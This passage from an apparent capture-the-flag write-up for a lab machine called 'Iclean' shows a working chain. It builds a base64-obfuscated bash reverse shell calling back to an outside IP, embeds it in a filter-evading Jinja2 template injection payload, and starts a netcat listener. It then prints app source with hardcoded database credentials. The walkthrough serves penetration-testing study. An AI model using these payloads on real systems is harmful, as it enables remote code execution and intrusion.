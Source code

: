 Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```

now we need to embed this payload into our server side template injection payload

```
{% raw %}{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c 'echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
'")|attr("read")()}}{% endraw %}
```

Before executing this don't forget to turn on your listener

```
nc -lvp 443
```

Then after executing this payload the same way we did before we'd get a callback on our reverse shell handler.

![Reverse shell as www-data](/assets/img/Iclean/Iclean_08.png)

## Lateral movement

So now we have a reverse shell as the www-data user we need to escalate this to another user account. When looking through the application files i was able to find the credentials of the mysql database used for authentication of the application. Most of the code has been removed from the following snippet for brevity.

```python
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```
